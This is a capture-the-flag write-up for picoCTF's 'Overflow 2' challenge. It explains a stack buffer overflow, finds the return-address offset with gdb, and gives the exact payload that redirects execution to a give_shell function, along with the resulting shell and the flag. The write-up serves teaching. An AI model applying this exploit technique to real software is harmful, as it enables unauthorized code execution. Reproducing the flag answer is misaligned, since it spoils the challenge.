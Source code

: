 ## Overflow 2 - 70 (Binary Exploitation) ##
#### Writeup by Oksisane

### Problem ###

This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.html), and the source can be found [here](https://picoctf.com/problem-static/binary/Overflow2/overflow2.c).

### Hint ###

How can you run the give_shell function?

## Answer ##

### Overview ###

Implement basic [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) to call `give_shell`.

### Details ###

I'm going to assume you are familiar with the basics of a buffer overflow. If not, read the write-up for [Overflow 1](overflow1.md).

Let's get started! In this problem we are going to learn how to use the basics of  [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) to control the flow of a program and call this function:
```c
/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}
```
#####What makes this vulnerability possible
When we call `vuln()`, a `return address` is pushed onto the stack. This address tells the program what to do when it is finished executing the instructions defined inside `vuln()`. In our example:
```c
int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```
The `return address` would point to `return 0;`, the next instruction after the call to `vuln`. By using the same sort of buffer overflow we did in `overflow 1` we can overflow our buffer into the memory containing the `return address` (the register that stores this is called `eip`). Then we can change the value of the return address to whatever we want (which will be the start of the `give_shell()` function in this case). Once the program is finished executing `vuln()` it will read our fake return address and jump to our shell!

Before we are finished we need a few pieces of information to actually execute the exploit. The first thing we need to know is how far up the stack to write. We can figure this out using `gdb`, a program debuging tool. This is how you start gdb in the shell:
```bash
pico89244@shell:~$ cd /home/overflow2/
pico89244@shell:/home/overflow2$ gdb overflow2
GNU gdb (Ubuntu 7.7-0ubuntu3.1) 7.7
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from overflow2...(no debugging symbols found)...done.
(gdb)
```
Next, we need to set the input to our program. To do this we type:
```bash
set args `python -c 'print "A"*30'`
```
Finally, we have to run the program in gdb. To do this we simply type `run`. You should see this output:
```bash
(gdb) set args `python -c 'print "A"*30'`
(gdb) run
Starting program: /home/overflow2/overflow2 `python -c 'print "A"*30'`

Program received signal SIGSEGV, Segmentation fault.
0x08004141 in ?? ()
(gdb)
```
See the return address, `0x08004141`? The `4141` are our A values! Since we overwrote half the address with 30 values of `A` as our argument, this tells us that `eip` occupies positions 28-32 above the base of our stack, or 12 above our 16 character buffer. In other words, by writing A*28 and then 1234, 1234 would be our new return address. Now that we know how to change `eip` all we need to know is what location we should change `eip` to. Still in gdb, we can find the address of the `give_shell()` function by running
```bash
(gdb) print &give_shell
$1 = (<text variable, no debug info> *) 0x80484ad <give_shell>
(gdb)
```
Nice! We now know `0x80484ad` is the address of `give_shell`.

With these two pieces of knowledge, let's exit gdb and construct our final exploit :
```bash
./overflow2  `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
```

We print `A` 28 times to write up the stack to `eip`, then `0x80484ad`(in little edian) to tell the function to jump to `give_shell`. Let's run it:
```
pico89244@shell:/home/overflow2$ ./overflow2  `python -c 'print "A"*28 + "\xad\x84\x04\x08"'`
$ whoami
pico89244
$ cat flag.txt
controlling_%eip_feels_great
```
Sure enough, this gives us our shell and the flag!
### Flag ###

    controlling_%eip_feels_great


